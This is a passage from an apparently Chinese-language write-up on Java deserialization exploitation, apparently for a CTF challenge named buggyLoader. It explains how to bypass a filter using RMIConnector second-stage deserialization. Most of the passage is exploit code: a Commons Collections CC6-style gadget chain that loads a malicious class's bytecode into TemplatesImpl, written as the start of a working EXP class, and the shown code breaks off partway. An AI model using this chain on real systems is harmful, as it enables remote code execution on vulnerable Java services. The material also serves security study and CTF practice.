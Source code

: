 [![](assets/1709112106-686878a9a01aa34058b4423986db3822.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227200156-012257de-d568-1.png)

那么既然是因为这个，所以我们的数组的 payload 就无法使用了，因为在打 CC 的过程当中基本都会带上`ChainedTransformer`​来链式调用，或者在最后的 Sink 的点的时候会用到`TemplatesImpl`​来加载`byte[][]`​字节码，但是这里就都没办法使用了，当然了不使用`ChainedTransformer`​链式调用一个一个手动来触发也是可以的，但是因为存在`RMIConnector`​进行二次反序列化会更加方便，因为我们可以只需要单`InvokerTransformer`​来进行反射调用`connect()`​方法即可，那么写出 EXP

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class buggyLoader {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static HashMap getObject() throws Exception{
        //cc6的HashMap链
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{payloads});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Transformer transformer = new InvokerTransformer("newTransformer", new Class[]{}, new Object[]{});
```